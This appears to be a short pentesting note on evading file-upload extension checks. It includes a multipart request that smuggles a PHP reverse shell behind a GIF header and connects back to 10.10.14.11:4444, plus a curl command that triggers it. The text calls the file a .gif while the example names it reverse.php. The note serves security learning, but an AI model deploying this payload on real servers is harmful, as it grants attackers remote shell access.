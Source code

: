 # File by pass

In some cases, the web application will only allow certain file extensions to be uploaded. However, the application may not check the file content, only the file extension. This can be exploited by uploading a file with a valid extension, but with a different file type. For example, a PHP file can be uploaded with a `.jpg` extension. This can be used to execute code on the server.

## Example

```bash
------WebKitFormBoundaryBqdknE02TXAj3VxC
Content-Disposition: form-data; name="file"; filename="reverse.php"
Content-Type: image/gif

GIF87a;<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'");
?>

------WebKitFormBoundaryBqdknE02TXAj3VxC
Content-Disposition: form-data; name="submit"

Submit Screenshot
------WebKitFormBoundaryBqdknE02TXAj3VxC--
```

`GIF87a;` is the header of a GIF file.
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP> 0>&1'"); ?>` is the PHP code that will be executed on the server.

Here, a PHP file is uploaded with a `.gif` extension. When the server processes the file, it will execute the PHP code and create a reverse shell.

Then when we access this image, the server will execute the PHP code and create a reverse shell from the listener we have set up.

```bash
curl http://<IP>/uploads/reverse.php
```

## Links

- https://book.hacktricks.xyz/pentesting-web/file-upload